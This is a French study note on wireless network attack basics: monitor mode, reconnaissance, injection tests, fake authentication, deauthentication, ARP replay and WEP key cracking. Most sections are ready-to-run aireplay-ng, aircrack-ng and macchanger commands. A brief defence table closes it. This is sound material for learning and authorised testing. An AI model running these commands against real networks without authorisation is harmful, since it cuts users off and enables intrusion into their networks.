

# Attaques WiFi — Préparation & Basiques

> [!info] **En 1 phrase**
> Avant toute attaque WiFi : un **adaptateur compatible monitor+injection**, le **mode moniteur**, une **reconnaissance**
> du canal/SSID/MAC, un **test d'injection**, et la maîtrise de la **fake authentication** et de la **deauthentication** —
> les briques de toutes les attaques WiFi (WEP, WPA2, PMKID…).

---

## Concept



---

## L'adaptateur = 90% du succès

> [!warning] **Sans monitor + injection, rien ne marche.**
> Le chipset doit supporter le mode moniteur ET l'injection de trames.

- **Chipset rtl8812au** : Alfa AWUS036ACH (dual-band, injection fiable).
- **Chipset atheros** : Alfa AWUS036H, TP-Link WN722N v1.
- Vérifier la compatibilité : [liste aircrack-ng](https://www.aircrack-ng.org/doku.php?id=compatibility_drivers).

```bash
# Installation driver Realtek rtl88xxau
apt install realtek-rtl88xxau-dkms

# Vérifier la carte présente / chipset
iwconfig
iw list
dmesg | grep 8187    # ex: carte Alfa

# Augmenter la puissance TX (si autorisé)
iw reg set B0
iwconfig wlan0 txpower 30
```

---

## Mode moniteur

```bash
# Démarrer le mode moniteur
airmon-ng start wlan0
airmon-ng start wlan0 3          # sur un canal précis (ex: 3)

# Méthodes manuelles
iw dev wlan0 interface add mon0 type monitor
iwconfig wlan0 mode monitor channel 3

# Activer l'interface
ifconfig mon0 up

# Arrêter le mode moniteur
airmon-ng stop mon0
iw dev wlan0 interface del mon0
iwconfig wlan0 mode managed
```

> [!tip] **Problèmes fréquents**
> `airmon-ng check kill` tue les processus qui interfèrent (NetworkManager, wpa_supplicant…) — il faut ensuite relancer le réseau manuellement.

---

## Reconnaissance

```bash
# Scanner les AP
airodump-ng mon0
airodump-ng mon0 -c 3                    # canal précis
airodump-ng mon0 -c 3 --bssid AA:BB:CC:DD:EE:FF -w capture   # cibler + dump

# Trouver SSID et canal (sans airodump)
iw dev wlan0 scan | grep SSID
iw dev wlan0 scan | egrep "DS Parameter set|SSID"
iwlist wlan0 scanning | egrep "ESSID|Channel"

# Gérer l'adresse MAC
macchanger -s mon0
macchanger --show mon0
```

```bash
# Variables utiles pour la suite
AP_MAC="XX:XX:XX:XX:XX:XX"       # BSSID de la cible
VICTIM_MAC="XX:XX:XX:XX:XX:XX"   # client connecté
ATTACKER_MAC="XX:XX:XX:XX:XX:XX" # notre MAC (moniteur)
AP_SSID="wifibox"                # ESSID
SRC_ADDR="192.168.1.1"
DST_ADDR="192.168.1.255"
```

---

## Tester l'injection

```bash
# Test d'injection (test d'injection vers le AP)
aireplay-ng -9 mon0

# Test carte à carte
aireplay-ng -9 -i wlan1 mon0
```

---

## Fake Authentication

> [!warning] **À faire avant CHAQUE attaque** (WEP surtout) : il faut être « associé » au AP pour que celui-ci accepte nos paquets injectés.

```bash
# Fake auth simple (sans ARP)
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0
#  > Association successful! :-)

# Fake auth pour les AP difficiles (keep-alive toutes les 10 s)
aireplay-ng -1 6000 -o 1 -q 10 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>

# Parfois il faut d'abord usurper une MAC valide (observée via airodump)
```

---

## Deauthentication

> Force un client à se reconnecter → déclenche l'émission de paquets (ARP) ou capture le handshake 4-way.

```bash
# 1 déauth, 0 = illimité
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
#  > Sending 64 directed DeAuth.

# Déauth globale (tous les clients)
aireplay-ng -0 0 -e hacklab -c FF:FF:FF:FF:FF:FF wlan0mon

# Déauth avec un SSID ciblé
aireplay-ng -0 0 -a $AP_MAC mon0
```

---

## ARP Replay (brique de base)

> Réécoute les paquets ARP et les réinjecte au AP → le AP répond avec un nouveau IV. En collectant assez d'IV, on cracke la clé WEP.

```bash
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0
#  -h = notre MAC si fake auth faite, sinon MAC du client connecté
#  -x 1000 -n 1000 : accélérer
#  alternativement : déauth des clients pour générer du trafic

# Cracker après collecte
aircrack-ng -0 wep1.cap
aircrack-ng -b $AP_MAC wep1.cap
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **802.1X / Enterprise** | Les attaques par deauth/fake auth ne donnent pas la clé |
| **WIDS/WIPS** | Détecte les deauth anormales et les fake AP (airtun-ng + déchiffrement temps réel) |
| **WPA3/SAE** | Résistant au crack offline et aux downgrades (si configuré correctement) |
| **Surveillance** | Alerter sur les deauth massives (attaque de collecte d'handshake) |

## Tips & Pièges

- **Adaptateur interne** (chipset Intel, etc.) : souvent pas d'injection → pense au **reverse tethering** ou à un **dongle USB**.
- Le **filtrage MAC** se contourne avec `macchanger` (adopter une MAC de client légitime).
- Un **SSID caché** se révèle en déauthentifiant un client (le SSID apparaît dans les probes).
- `airmon-ng check kill` stoppe le réseau : prévoir de restaurer (`airmon-ng check` puis redémarrer).

> [!info] **Sources**
> GitHub : [swisskyrepo/HardwareAllTheThings – `docs/protocols/wifi/wifi-basics.md`](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/wifi/wifi-basics.md)

**Liens :** [[Attaques WiFi (WPA2 et PMKID)| Hub WiFi]] · [[Attaques WiFi - WEP| WEP]] · [[Attaques WiFi - WPA2 PSK| WPA2-PSK]] · [[Attaques WiFi - PMKID| PMKID]] · [[Bibliothèque technique| Index]]
